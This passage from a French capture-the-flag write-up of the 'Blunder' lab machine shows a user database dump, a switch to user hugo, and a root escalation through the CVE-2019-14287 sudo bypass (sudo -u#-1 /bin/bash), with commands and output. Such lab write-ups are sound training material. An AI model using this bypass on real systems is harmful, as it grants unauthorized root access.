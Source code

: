 ```bash
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ su hugo
Password: 
hugo@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ cd 
hugo@blunder:~$ cat user.txt 
779f.....44d0
```

## Privilege Escalation

### CVE-2019-14287 : hugo -> root
On fait un sudo -l en tant que hugo:
```bash
exit
hugo@blunder:~$ sudo -l
Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```
On observe qu'il peut ouvrir un shell en tant que n'importe quel utilisateur, sauf root.

En cherchant un peu sur le web + chatGPT s'il est possible de bypasser cette restriction, on découvre une CVE:

**CVE-2019-14287** : Sudo doesn't check for the existence of the specified user id and executes the with arbitrary user id with the sudo priv
-u#-1 returns as 0 which is root's id. (De même pour 4294967295 qui dépasse la limite d'un int ? Donne 0, donc l'id de root à nouveau ?)

and /bin/bash is executed with root permission

```bash
hugo@blunder:~$ sudo -u#-1 /bin/bash
root@blunder:/home/hugo# whoami
root
root@blunder:/home/hugo# cat /root/root.txt
99b9.....1d73

------------V2-------------
hugo@blunder:~$ sudo -u#4294967295 /bin/bash
root@blunder:/home/hugo# whoami
root
```
